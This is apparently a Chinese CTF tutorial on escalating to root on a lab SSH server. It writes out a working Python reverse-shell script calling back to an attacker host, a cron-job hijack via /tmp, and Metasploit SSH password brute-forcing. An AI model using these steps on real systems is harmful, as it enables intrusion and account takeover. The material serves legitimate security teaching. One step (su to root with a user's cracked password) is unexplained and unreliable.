# 网络安全入门到精通：P29：4.5：CTF夺旗-SSH服务测试（获取root权限）

在本节课中，我们将学习如何在一个已获得初始访问权限的Linux服务器上进行权限提升，最终获取root权限并找到CTF比赛中的flag。我们将从信息收集开始，探索提权路径，并最终通过暴力破解和交互式shell优化来完成目标。





## 信息收集与初步分析





上一节我们使用martin用户成功登录了服务器。本节中我们来看看如何从普通用户权限提升到root权限。首先，我们需要确认当前用户的权限。



使用`id`命令查看当前用户martin的权限和所属用户组。



```bash
id
```



输出显示martin用户并非root用户，也没有特殊权限。因为flag文件通常属于root用户和root用户组，所以我们需要提升权限。



在进行提权之前，我们可以使用以下几条命令来收集系统信息。

以下是查看系统用户和组信息的命令：

*   `cat /etc/passwd`：查看所有用户的列表。
*   `cat /etc/group`：查看所有用户组的列表。
*   `find / -user [用户名]`：查找属于特定用户的文件。
*   检查`/tmp`临时目录，查看是否存在可利用的临时文件。



执行`cat /etc/passwd`后，可以看到系统中存在jim、martin、hadi以及root等用户。执行`cat /etc/group`可以看到对应的用户组。检查`/tmp`目录时，除了自己上传的测试文件，未发现其他明显可利用的文件。



## 深入挖掘：定时任务（Cron Jobs）

在收集基础信息未发现明显漏洞后，我们需要深入挖掘。在CTF比赛中，一个特别值得关注的文件是`/etc/crontab`。

这个文件用于设定系统定期执行的任务，通常需要root权限编辑。不同用户可以设定在不同时间执行不同的任务。在CTF中，我们经常通过检查该文件来寻找提权机会。

其核心思路是：检查是否有用户设定了定时任务，但任务指向的可执行文件不存在或当前用户有权修改。如果文件不存在，我们可以创建同名文件并写入反弹shell代码；如果文件存在且我们有权修改，则可直接修改文件内容。

下面我们来查看该文件内容。



```bash
cat /etc/crontab
```

在文件内容中，我们可以看到多条root用户的定时任务。同时，发现jim用户有一个python任务，设定为每5分钟执行一次`/tmp/security.py`文件。然而，我们在`/tmp`目录下并未发现这个文件。



这为我们提供了机会。我们可以将之前上传的`1.py`（一个反弹shell脚本）重命名为`security.py`，等待定时任务执行。

反弹shell脚本的核心代码如下，其作用是让靶机连接到攻击机的监听端口，并提供一个交互式shell：

```python
#!/usr/bin/env python3
import os, subprocess, socket
s=socket.socket()
s.connect(("攻击机IP", 监听端口))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash", "-i"])
```

在攻击机（Kali）上，使用`nc`命令监听端口：

```bash
nc -lvp 4445
```

在靶机上，将脚本重命名并赋予执行权限：

```bash
mv 1.py security.py
chmod +x security.py
```





等待定时任务执行后，攻击机会收到一个来自jim用户的反向shell连接。

## 权限提升尝试与暴力破解

通过定时任务获得jim用户的shell后，我们检查其权限。

使用`whoami`和`id`命令查看，发现jim用户同样是普通用户，无法直接提权到root。我们也没有jim用户的密码，无法使用`su`命令。



此时，我们意识到martin和jim用户都无法直接提权。因此，我们需要尝试暴力破解最后一个已知用户名`hadi`的SSH密码。



首先，使用工具`CUPP`生成针对`hadi`的个性化字典。

```bash
git clone https://github.com/Mebus/cupp.git
cd cupp
chmod +x cupp.py
./cupp.py -i
```
在交互模式中，输入相关信息（如用户名hadi）来生成字典。

然后，使用Metasploit框架的`ssh_login`模块进行暴力破解。

```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.106
set USERNAME hadi
set PASS_FILE /home/kali/Desktop/cupp/hadi.txt
set THREADS 5
set VERBOSE true
run
```

经过一段时间的破解，成功获取密码：`hadi123`。

## 获取Root权限与寻找Flag

使用破解得到的凭据（hadi/hadi123）通过SSH登录或直接在已获得的会话中切换用户。

```bash
su - root
```
输入密码`hadi123`后，成功提升为root权限。使用`whoami`和`id`命令确认。

```bash
whoami
id
```

获得root权限后，最后一步是寻找flag文件。在CTF中，flag通常位于根目录或`/root`目录下，文件名可能是`flag`、`flag.txt`等。



```bash
ls /
cat /flag.txt
```



成功读取flag文件内容，完成挑战。

## 总结与核心要点

本节课中我们一起学习了在CTF中对SSH服务进行渗透测试并获取root权限的完整流程。

在对SSH服务渗透中，大部分情况可以利用获取的私钥文件（id_rsa）直接登录。但个别情况需要进行用户名密码的暴力破解。通过暴力破解获得的用户凭据，有时可以直接用于提升到root权限。

在CTF比赛中要特别注意两个关键点：
1.  `/tmp`临时目录：该目录下的文件在机器重启后可能会消失，常被用于存放临时可执行文件。
2.  `/etc/crontab`定时任务文件：常与`/tmp`目录结合考察，通过分析或篡改定时任务来实现权限提升。



掌握信息收集、漏洞分析、暴力破解和shell交互优化是完成此类挑战的关键技能。